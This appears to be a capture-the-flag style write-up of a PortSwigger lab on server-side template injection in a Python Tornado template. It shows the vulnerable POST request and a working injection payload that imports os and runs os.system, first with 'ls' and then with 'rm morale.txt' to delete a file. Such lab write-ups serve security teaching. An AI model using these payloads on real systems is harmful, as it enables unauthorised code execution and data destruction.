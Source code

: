 # [Lab: Basic server-side template injection (code context)](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context)

## Lab

This lab is vulnerable to  [server-side template injection](https://portswigger.net/web-security/server-side-template-injection)  due to the way it unsafely uses a Tornado template. To solve the lab, review the Tornado documentation to discover how to execute arbitrary code, then delete the  `morale.txt`  file from Carlos's home directory.

You can log in to your own account using the following credentials:  `wiener:peter`

Hint

Take a closer look at the "preferred name" functionality.

## Analysis

Detected ssti at:

```http
POST /my-account/change-blog-post-author-display HTTP/1.1
```

with body:

```http
blog-post-author-display=user.first_name&csrf=1HL1LH7JPFXcM4dC0F4lNUVP1o0DN6bU
```

Random comment on a post, observe the name after editing the body of the above request:

```http
blog-post-author-display=user&csrf=1HL1LH7JPFXcM4dC0F4lNUVP1o0DN6bU
```

name:

```python
&lt;__main__.User instance at 0x7fe8b103f0f0&gt;
```

When I'm trying to fuzz, there is an error:
![detect.png](./../img/lab-2-detect.png)

=> python tornado engine

## Exploit

tornado syntax:

- directives `{%...%}`
- expression `{{}}` (tornado does not allow empty expression)

If the server tornado look like this:

```python
{{our-input}}
```

Then if we enter:

```python
123}}{%import os%}{{os.system('ls')
```

It 'll become:

```python
{{123}}{%import os%}{{os.system('ls')}}
```

Result:

![exploit-1.png](./../img/lab-2-exploit-1.png)

replace `ls` with `rm morale.txt`, space is url encoded => Lab Solved

## References

python
tornado: <https://www.tornadoweb.org/en/stable/guide/templates.html>
